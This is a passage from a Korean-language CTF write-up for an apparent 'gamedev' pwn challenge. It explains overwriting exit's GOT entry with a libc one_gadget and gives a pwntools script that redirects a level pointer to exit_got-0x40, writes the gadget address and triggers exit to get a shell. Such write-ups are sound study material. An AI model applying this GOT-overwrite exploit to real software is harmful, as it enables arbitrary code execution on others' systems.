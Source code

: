 ### Step 3. Overwrite exit’s GOT with one_gadget

- `exit` 의 GOT를 Overwrite한 이유는 딱히 없습니다.. 괜히 `printf` 처럼 자주 사용되는 함수 건드렸다가 오류날 것 같아서..
- `puts_got` 구할 때와 같이 `exit_got` 의 주소를 구한다.
- 해당 부분을 one_gadget 으로 Overwrite한다.
- 이 때, `Level` 의 주소를 `exit_got - 0x40` 으로 설정해야 `exit_got` Overwrite가 가능함에 유의한다.

![스크린샷 2025-02-10 오후 4.09.27.png](gamedev%20fd3e2266a94145349697dc11ed6fd002/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2025-02-10_%E1%84%8B%E1%85%A9%E1%84%92%E1%85%AE_4.09.27.png)

- 조건을 전부 계산하고 one_gadget을 사용해야 하는데.. 귀찮으니까 전부 넣어보면 됩니다.
    - 그런데 이 문제는 `0xd511f` 를 사용해야 성공해서.. 애 좀 먹었습니다.
    - 내가 코드를 잘못 짰는지.. 가젯이 안 먹히는건지.. 알 수가 없음

```python
# 0x4c139 0x4c140 0xd511f
one_gadget = libc_base + 0xd511f

# Round 2
reset()
explore(1)

# Overwrite start-2's next[0] 
exit_got = code_base + 0x4040
payload = b'A' * 0x30 + p64(exit_got-0x40)
edit_level(payload)

# Overwrite exit_got with one_gadget
reset()
explore(2)
explore(0)
edit_level(p64(one_gadget))

# Exit to Get Shell
p.sendlineafter(b'Choice: ', str(6))

p.interactive()
```
